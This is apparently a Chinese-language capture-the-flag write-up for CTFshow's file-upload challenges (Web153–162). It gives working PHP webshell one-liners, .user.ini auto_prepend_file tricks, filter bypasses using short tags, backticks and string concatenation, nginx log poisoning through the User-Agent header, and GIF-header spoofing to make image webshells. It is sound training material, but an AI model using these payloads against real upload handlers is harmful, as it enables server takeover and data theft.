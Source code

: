 # CTFshow 文件上传

**题目范围：Web151 - Web170**



## Web 153 .user.ini

这个题有必要写一写WP，在修改了前端，并且Burp拦截修改MIME之后，.php依旧是传不上去。

那就用.user.ini，其内容是`auto_prepend_file=yi.png`，然后依旧是改前端，改MIME，将这个文件上传了上去。第二步就是上传yi.png（图片马），这个就是png，也没什么好改的。

**注意！**这之后蚁剑连接的不应该是yi.png，也不是yi.php，而应该是.user.ini目录下的任何一个php文件，所以我们连接 index.php

**关于.user.ini：**`.user.ini`使用范围很广，不仅限于 Apache 服务器，同样适用于 Nginx 服务器，只要服务器启用了 fastcgi 模式 (通常非线程安全模式使用的就是 fastcgi 模式)。

**局限：**在.user.ini中使用这条配置也说了是在同目录下的其他.php 文件中包含配置中所指定的文件，也就是说需要该目录下存在.php 文件，通常在文件上传中，一般是专门有一个目录用来存在图片，可能小概率会存在.php 文件。

但是有时可以使用 ../ 来将文件上传到其他目录，达到一个利用的效果。





## Web 154

相对于上一关来说，过滤了php，我们可以大写绕过，也可以使用php短标签。

但是问题是，我是看了WP才知道的啊……（流汗黄豆）这该咋办。





## Web 156

这关更离谱，过滤了`[]`，所以我们只能用花括号替代中括号，一句话木马就只能是

`<?= @eval($_POST{'a'});?>`

这不看WP怎么会知道啊。





## Web 157-158

越来越离谱了，这一关过过滤了`php`、`[]`、`{}`、`;`。

但是我们还是可以执行任意php语句呀，只是没办法上传php了而已。所以还是先上传.user.ini，然后上传图片的内容应该是`<?=system('ls ../')?>`。

或者直接`<?=system(tac ../fla*)?> `

但是会报错“**Parse error**:  syntax error, unexpected '.' in **/var/www/html/upload/yi.png** on line **1**”

那我们就稍稍修改一下，`<?=system("tac ../fl*")?>`





## Web 159

 本题过滤掉了`php`、`{}`、`[]`、`;`、`()`。

所以就无法调用所有的函数了，但是能利用php特性，命令执行可以用``（反引号包涵）

```php
<?=`nl ../fl*`?>
<?=`tac ../fl*`?>
```





## Web 160

> 在不同的系统，存放日志文件地方和文件名不同
>
> **apache**一般是/var/log/apache/access.log
>
> **nginx**的log在/var/log/nginx/access.log和/var/log/nginx/error.log
>
> 由于访问URL时访问URL时，服务器会对其编码，所以得通过抓包的形式尝试注入
>



添加了日志包含，nginx的日志在`/var/log/nginx/access.log`，同时过滤了`log`，用句点.拼接

`<?=include"/var/lo"."g/nginx/access.lo"."g"?>`

这里要两次包含，首先.user.ini包含木马php，再上传木马php包含日志，同时UA头更改成tac语句：`<?php @eval($_POST['a']);?>`



这个题详细说一下吧，先改前端，将合法后缀改成`ini`，然后打开拦截，上传`.user.ini`，然后在Burp中修改MIME为`image/png`，内容：`auto_prepend_file=yi.png`，然后再改前端，改成png，然后上传`yi.png`，内容：`<?=include"/var/lo"."g/nginx/access.lo"."g"?>`，上传png的同时拦截修改UA为`<?php @eval($_POST['a']);?>`，然后就OK了，蚁剑连接`URL/uypload/index.php`或者直接`URL/uypload/`就行了。





## Web 161 getimagesize()

> 可参考 : https://blog.csdn.net/weixin_43915842/article/details/90183305

我直接看了WP，这个题用`getimagesize()`对文件头做了检测，而且WP几乎都是用的GIF的文件头`GIF89a`，那我也就先这样了，需要注意的是，后台会对用户上传的每个文件都进行检验，所以不管是`.user.ini`还是我们要上传的图片，都需要在文件最开始加一个`GIF89a`，其余的和上一关一样，日志包含+UA。



下面尝试一下PNG头`‰PNG`，JPG的就不考虑了，JPG头挺乱的。不行，连.user.ini都传不上去。

**图片马制作的三种方法：**

1. 直接伪造`GIF89a`这种
2. CMD：copy /b test.png + yijuhua.php result.png
3. 使用GIMP（开源的图片修改软件），通过增加备注，写入执行命令。





## Web 162

看了看WP，过滤了小数点，有个是给了python脚本，也不会用。还有一个用了VPS（虚拟专用服务器）（ip转数字），这让我咋做……
